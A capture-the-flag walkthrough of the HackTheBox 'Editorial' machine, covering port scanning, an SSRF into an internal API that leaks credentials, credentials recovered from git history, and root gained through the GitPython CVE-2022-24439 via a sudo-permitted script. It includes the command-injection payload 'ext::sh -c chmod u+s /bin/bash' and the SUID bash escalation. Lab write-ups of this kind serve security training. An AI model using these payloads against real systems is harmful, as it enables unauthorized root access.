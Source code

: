 ```yaml
---
title: "Editorial Writeup - HackTheBox"
date: 2024-10-09
draft: false
description: Editorial is an easy Linux machine using an SSRF vulnerability to access an internal API and retrieve SSH credentials. Further Git enumeration reveals more creds, with root access gained via CVE-2022-24439 and misconfigured sudo permissions.
summary: Editorial is an easy Linux machine using an SSRF vulnerability to access an internal API and retrieve SSH credentials. Further Git enumeration reveals more creds, with root access gained via CVE-2022-24439 and misconfigured sudo permissions.
Tags:
- HackTheBox
- Linux
- Easy
cover:
  image: "feature.png"
---
```


| Link: | [https://app.hackthebox.com/machines/Editorial](https://app.hackthebox.com/machines/Editorial) |
| --- | --- |
| Difficulty | Easy |
| Machine | Linux |

---

## Enumeration

I ran nmap scan quickly on the target machine to reveal open ports on the box.

```jsx
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

I again ran agressive scan on the box on two open ports again using `sudo nmap 10.10.11.20 -T4 -vv -sC -sV -A -O` , following is result of the scan:

```jsx
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMApl7gtas1JLYVJ1BwP3Kpc6oXk6sp2JyCHM37ULGN+DRZ4kw2BBqO/yozkui+j1Yma1wnYsxv0oVYhjGeJavM=
|   256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMXtxiT4ZZTGZX4222Zer7f/kAWwdCWM/rGzRrGVZhYx
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://editorial.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

I added editorial.htb to my /etc/hosts file using command “`echo '10.10.11.20 editorial.htb' >> /etc/hosts`” and then visited `http://editorial.htb` the site looks like this:

![Untitled](Editorial%20430389d554fb45758990e424591fde42/Untitled.png)

## User Flag

There is `/upload` endpoint where we have upload functionality. We might get File Upload to RCE on this box. I will try to upload a reverse shell script to get a shell.

![Untitled](Editorial%20430389d554fb45758990e424591fde42/Untitled%201.png)

After bit of testing, the form field has cover url section which is actually vulnerable to SSRF and not file upload vulnerability in this website. 

The following request is vulnerable to SSRF where: 

![Untitled](Editorial%20430389d554fb45758990e424591fde42/Untitled%202.png)

Upon testing on internal network, I found that there is port 5000 open on this box.

![Untitled](Editorial%20430389d554fb45758990e424591fde42/Untitled%203.png)

Visiting the port 5000 response i.e (`static/uploads/rrrrrrrr-eeee-zzzz-yyyyy-iscool`) reveals the api endpoint:

![Untitled](Editorial%20430389d554fb45758990e424591fde42/Untitled%204.png)

I visited the api endpoint and tried to open the file downloaded from the request recieved from the rsponse.

![Untitled](Editorial%20430389d554fb45758990e424591fde42/Untitled%205.png)

Upon visiting the endpoint given as by the request from above image, we get a file downloaded in our system. 

The file contains the username and password for user `dev`. Using SSH to the user and now we get user flag.

## Root Flag

There is a directory `/apps` which contains `.git` in home directory of the user dev.

```bash
dev@editorial:~$ ls
apps  lol.zip  user.txt
dev@editorial:~$ cd apps
dev@editorial:~/apps$ ls -la
total 24
drwxrwxr-x 6 dev dev 4096 Jun 16 08:17 .
drwxr-x--- 5 dev dev 4096 Jun 16 08:17 ..
drwxrwxr-x 2 dev dev 4096 Jun 16 08:13 app_api
drwxrwxr-x 4 dev dev 4096 Jun 16 08:10 app_editorial
drwxr-xr-x 8 dev dev 4096 Jun 16 08:09 .git
drwxrwxr-x 2 dev dev 4096 Mar  9  2021 GitDump-master
```

I will try to see logs:

```bash
dev@editorial:~/apps$ git log .
commit 8ad0f3187e2bda88bba85074635ea942974587e8 (HEAD -> master)
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 21:04:21 2023 -0500

    fix: bugfix in api port endpoint

commit dfef9f20e57d730b7d71967582035925d57ad883
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 21:01:11 2023 -0500

    change: remove debug and update api port

commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev

    * To use development environment.

commit 1e84a036b2f33c59e2390730699a488c65643d28
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:51:10 2023 -0500

    feat: create api to editorial info

    * It (will) contains internal info about the editorial, this enable
       faster access to information.

commit 3251ec9e8ffdd9b938e83e3b9fbf5fd1efa9bbb8
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:48:43 2023 -0500

    feat: create editorial app
```

Thee commit `b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae` shows that there is change in api downgrading from `prod` to `dev`. I will try to show the commit like this:

```bash
dev@editorial:~/apps$ git show b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev
    
    * To use development environment.

diff --git a/app_api/app.py b/app_api/app.py
index 61b786f..3373b14 100644
--- a/app_api/app.py
+++ b/app_api/app.py
@@ -64,7 +64,7 @@ def index():
 @app.route(api_route + '/authors/message', methods=['GET'])
 def api_mail_new_authors():
     return jsonify({
-        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: R3DACTED_PASSWORD\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
+        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: R3DACTEDPASSWORD!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
     }) # TODO: replace dev credentials when checks pass
 
 # -------------------------------

```

This has credential for both user `prod` and `dev`. Since we are already at user prod, we will change our user to `prod`.

```bash
dev@editorial:~/apps$ su prod
Password: 
prod@editorial:/home/dev/apps$ 
```

By using `sudo -l` i can see that this user prod can use `/usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *` as root and we wont be asked for password.

Below is the code for the python script `/opt/internal_apps/clone_changes/clone_prod_change.py`

```bash
prod@editorial:/home/dev/apps$ cat /opt/internal_apps/clone_changes/clone_prod_change.py
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

This script changes the working directory to `/opt/internal_apps/clone_changes`, initializes a bare Git repository, and clones the repository specified by `url_to_clone` into a subdirectory named `new_changes` with a specific Git configuration option.

Doing few research there is RCE vulnerability for this. If you are interested reading you can read [here](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858).

I will use this script to make /bin/bash suid binary and then use it to get root shell.

I ran `sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c chmod% u+s% /bin/bash'`

Although I got errors, it successfully made it suid binary. I simply then ran `/bin/bash -p` to get root shell.

```bash
prod@editorial:~$ /bin/bash -p
bash-5.1# id
uid=1000(prod) gid=1000(prod) euid=0(root) groups=1000(prod)
```

There we go. We rooted this box successfully.

## Conclusion

Thanks for following my writeup. Follow my blogs for more. :D
